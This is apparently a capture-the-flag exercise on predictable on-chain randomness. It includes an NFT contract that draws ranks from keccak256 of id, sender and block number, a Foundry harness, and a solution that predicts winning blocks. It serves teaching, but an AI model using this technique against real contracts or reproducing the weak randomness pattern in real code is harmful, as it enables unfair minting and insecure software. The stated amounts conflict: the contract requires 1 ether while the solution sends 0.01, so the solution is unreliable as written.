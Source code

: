 # Background
Before the Oracles, it was difficult to generate random numbers. People had to use `sha3(block.number)` or other built-in variables to simulate the randomness.

# The predictable NFT game
In this game, there are 3 possible NFT ranks: Common(1), Rare(2), Superior(3).

Their randomization algorithm is weak, making it possible to predict the minting result.
The contract:
https://sepolia.etherscan.io/address/0x3D7C37943cF411BD4d52D50735B110B4384F9ae7

# The Goal
Analyze the contract's bytecode and find out its weakness.
You have 1 ether to mint 1 token, make sure to mint a Superior one.
You can wait and mint it on the right block.

# Foundry setup:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^ 0.8.19;

import "forge-std/Test.sol";

contract PredictableNFTTest is Test {
	address nft;

	address hacker = address(0x1234);

	function setUp() public {
		vm.createSelectFork("https://rpc.ankr.com/eth_sepolia");
		vm.deal(hacker, 0.01 ether);

		nft = address(0x3D7C37943cF411BD4d52D50735B110B4384F9ae7);
	}

	function test() public {
		vm.startPrank(hacker);

		uint mintedId;

		uint currentBlockNum = block.number;

		// Mint a Superior one, do it within the next 100 blocks.
		for(uint i=0; i<100; i++) {
			vm.roll(currentBlockNum);

			// call the function `mint()` on the right block and break the loop
			// ---- hacking time ----

			// ---- end of hacking ----

			currentBlockNum++;
		}

		// get rank from `mapping(tokenId => rank)`
		(, bytes memory ret) = nft.call(abi.encodeWithSignature(
			"tokens(uint256)",
			mintedId
		));
		uint mintedRank = uint(bytes32(ret));
		assertEq(mintedRank, 3, "not Superior(rank != 3)");
	}
}

```

# Hint
- You can use the decompiler on https://sepolia.etherscan.io/bytecode-decompiler?a=0x3D7C37943cF411BD4d52D50735B110B4384F9ae7
- Or refer to the source code at the end.


# Solution
`---- hacking time ----`:
```solidity
			(, bytes memory ret) = nft.call(abi.encodeWithSignature(
				"id()"
			));
			uint nextId = uint(bytes32(ret)) + 1;

			uint score = uint256(keccak256(abi.encode(
				nextId, hacker, currentBlockNum
			))) % 100;

			if(score > 90) {
				(, bytes memory ret) = nft.call{value: 0.01 ether}(abi.encodeWithSignature(
					"mint()"
				));
				mintedId = uint(bytes32(ret));
				break;
			}
```

# The source code of that contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^ 0.8.19;

contract PredictableNFT {
	uint public id;

	mapping(uint => uint) public tokens; // map of: tokenId => rank

	function mint() external payable returns(uint) {
		require(msg.value == 1 ether, "show me the money");

		id += 1;

		uint rank = random();

		tokens[id] = rank;

		return id;
	}

	function random() private view returns(uint) {
		uint randScore = uint256(keccak256(abi.encode(
			id, msg.sender, block.number
		))) % 100;

		if(randScore > 90) {
			return 3; // Superior
		} else if(randScore > 80) {
			return 2; // Rare
		} else {
			return 1; // Common
		}
	}
}
```



